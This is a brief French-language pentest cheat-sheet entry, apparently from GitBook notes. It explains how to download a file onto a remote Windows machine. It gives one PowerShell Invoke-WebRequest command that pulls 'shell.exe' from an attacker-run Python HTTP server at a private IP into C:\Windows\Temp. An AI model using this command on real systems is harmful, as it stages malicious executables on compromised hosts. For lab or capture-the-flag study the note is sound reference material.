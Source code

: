 # ⬇ Télécharger un fichier sur windows

Faire un serveur http avec python\
puis taper cette commande sur la machine windows distante:

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://10.8.112.175:8000/shell.exe' -Outfile 'C:\Windows\Temp\shell.exe'"
```

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>
